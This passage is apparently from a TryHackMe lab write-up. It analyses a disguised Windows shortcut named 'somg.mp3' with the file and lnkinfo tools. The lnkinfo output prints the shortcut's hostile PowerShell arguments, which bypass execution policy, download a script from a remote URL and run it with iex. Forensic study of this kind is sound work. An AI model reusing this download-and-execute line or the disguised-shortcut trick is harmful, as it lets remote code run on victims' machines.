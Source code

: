 ```┌──(intrusus㉿attck)-[~/Downloads/TryHackMe/Day1]
Duration                        : 0:03:11 (approx)
```

### **somg.mp3**
- File Type: Windows Shortcut (.lnk)
- Metadata:
  - **Target Path:** `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`
  - **Size:** 448 KB
- Evidence:
```┌──(intrusus㉿attck)-[~/Downloads/TryHackMe/Day1]
└─$ file somg.mp3 
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Unicoded, MachineID win-base-2019, EnableTargetMetadata KnownFolderID 1AC14E77-02E7-4E5D-B744-2EB1AE5198B7, Archive, ctime=Sat Sep 15 06:14:14 2018, atime=Sat Sep 15 06:14:14 2018, mtime=Sat Sep 15 06:14:14 2018, length=448000, window=normal, IDListSize 0x020d, Root folder "20D04FE0-3AEA-1069-A2D8-08002B30309D", Volume "C:\", LocalBasePath "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
```

#### Further Analysis of somg.mp3

```┌──(intrusus㉿attck)-[~/Downloads/TryHackMe/Day1]
└─$ lnkinfo somg.mp3          
lnkinfo 20230716

Windows Shortcut information:
        Contains a link target identifier
        Contains a relative path string
        Contains a working directory string
        Contains a command line arguments string
        Number of data blocks           : 4

Link information:
        Creation time                   : Sep 15, 2018 07:14:14.454767300 UTC
        Modification time               : Sep 15, 2018 07:14:14.454767300 UTC
        Access time                     : Sep 15, 2018 07:14:14.454767300 UTC
        File size                       : 448000 bytes
        Icon index                      : 0
        Show Window value               : 0x00000001
        Hot Key value                   : 0
        File attribute flags            : 0x00000020
                Should be archived (FILE_ATTRIBUTE_ARCHIVE)
        Drive type                      : Fixed (3)
        Drive serial number             : 0xa8a4c362
        Volume label                    : 
        Local path                      : C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe
        Relative path                   : ..\\..\\..\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe
        Working directory               : C:\\Windows\\System32\\WindowsPowerShell\\v1.0
        Command line arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\\ProgramData\\s.ps1'); iex (Get-Content 'C:\\ProgramData\\s.ps1' -Raw)"

Link target identifier:
        Shell item list
                Number of items         : 7

        Shell item: 1
                Item type               : Root folder
                Class type indicator    : 0x1f (Root folder)
                Shell folder identifier : 20d04fe0-3aea-1069-a2d8-08002b30309d
                Shell folder name       : My Computer

```